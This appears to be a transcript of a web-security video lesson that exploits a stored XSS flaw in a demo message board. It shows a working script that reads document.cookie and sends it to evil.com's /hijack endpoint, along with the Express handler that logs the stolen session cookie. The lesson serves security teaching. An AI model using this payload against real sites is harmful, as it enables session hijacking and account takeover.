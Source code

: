Instructor: [00:00] Now that our target site is protected against man in the middle and CSURF attacks, let's put our attacker hat back on and move on to our next attack, cross-site scripting, otherwise known as XSS.

[00:12] XSS attacks occur when an attacker uses a web application to inject malicious code, generally in the form of a browser-side script to unsuspecting users on otherwise trusted application. This occurs anywhere in web application, includes user input and its output while validating or encoding it.

[00:30] The way this works is that a message gets pushed under messages array and message that gets pushed is message from our user's username, followed by the value of the message parameter from the request.

[00:44] If you notice carefully, in `messages.js`, this message isn't sanitized in anyway, nor is it validated. If we then go down to our get route, we could see the messages are just printed out again, joined by two line breaks without doing any special formatting to turn a HTML into HTML entities.

[01:02] What this means is that any HTML present in messages will just be printed out as plain HTML. We can verify that this is vulnerable to XSS by attempting to include some HTML in our message. If I say `<imagesource="http://placekitten.com/400/400">`, I could see that an actual HTML for the image is placed, rather than the string representing that HTML.

![image in message](../images/egghead-make-an-xss-payload-to-read-a-cookie-from-a-vulnerable-website-html-in-message.png)

[01:34] Now that we've proven this page is vulnerable to XSS, we could do something a bit more malicious as our attacker. Let's try to steal the session cookie. We'll go to the server running evil.com, which is a pretty basic express application serving content from our static directory.

[01:50] Let's add an endpoint, which we'll call `"/hijack"`. When this endpoint is getted, let's log some information. We'll say `console.log("received cookie")` and we'll just damp the information contained in the payload parameter of our get query. We'll respond with `status(200)` and with the message OK.

#### index.js
```js
app.route("/hijack").get((request, response) => {
  console.log("areceived cookie", request.query.payload);
  response.status(200);
  response.send("ok");
})
```

[02:24] As an attacker, we want to hit this endpoint. We'll make another `script` and what this script will do is it will attempt to extract the session cookie. First we'll say our `const payload = document.cookie`. Because we're transmitting it over HTTP, we'll call `encodeURIComponent` on it.

#### Untitled-1
```html
<script>
const payload = encodeURIComponent(document.cookie);
</script>
```

[02:51] One of the easiest ways to transmit information is not via XHR or VFH, we'll just create a new image. We'll say `const img = newImage`. We'll set the source of our `image` to be equal to `https://evil.com:666/hijack`, which is our endpoint. It'll have a payload of our payload. That should do it.

```html
<script>
const payload = encodeURIComponent(document.cookie);
const img = new Image();
img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>
```

[03:27] Let's paste this message in now to our form. Hit submit. We could see that our request has gone out to evil.com:666/hijack with our payload, which contains our session ID. 

![payload highjacked](../images/egghead-make-an-xss-payload-to-read-a-cookie-from-a-vulnerable-website-highjacked-payload.png)

You could also notice that in the log output of our evil.com server is now printing out the cookie, thus completing our exercise attack.